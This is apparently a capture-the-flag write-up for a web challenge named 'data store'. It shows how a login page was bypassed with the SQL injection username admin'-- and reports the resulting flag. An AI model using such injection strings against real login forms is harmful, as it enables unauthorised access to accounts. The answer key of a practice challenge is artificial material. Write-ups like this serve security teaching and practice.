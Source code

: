 ### data store

we are given the web page 

`https://cyberyoddha.baycyber.net:33002/`

Upon visiting the webpage we are prompted with a username and password login.
Based on the challenge name I guessed this would be SQL injection

so I tried:

```
username: admin'--
password: plzwork
```

The injection succeeded and I got the flag

```
Here is your flag
CYCTF{1_l0v3_$q1i}
```

flag: CYCTF{1_l0v3_$q1i}